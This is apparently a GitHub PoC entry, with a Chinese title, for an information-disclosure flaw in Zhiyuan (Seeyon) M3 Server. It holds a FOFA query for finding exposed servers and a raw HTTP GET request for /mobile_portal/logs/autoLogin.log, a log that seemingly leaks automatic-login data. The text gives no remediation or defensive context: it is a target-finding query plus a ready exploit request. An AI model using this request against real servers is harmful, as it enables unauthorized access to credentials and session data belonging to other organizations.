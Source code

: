 ## 致远M3敏感信息泄露漏洞


## fofa
```
title="M3-Server"
```

## poc
```
GET /mobile_portal/logs/autoLogin.log HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Accept-Charset: utf-8
Accept-Encoding: gzip, deflate
Connection: close
```

![e5b392d5ab145b5acba296fcf2ea09c8](https://github.com/wy876/POC/assets/139549762/9e4e58b3-75d0-4f98-974b-391397fba2e4)
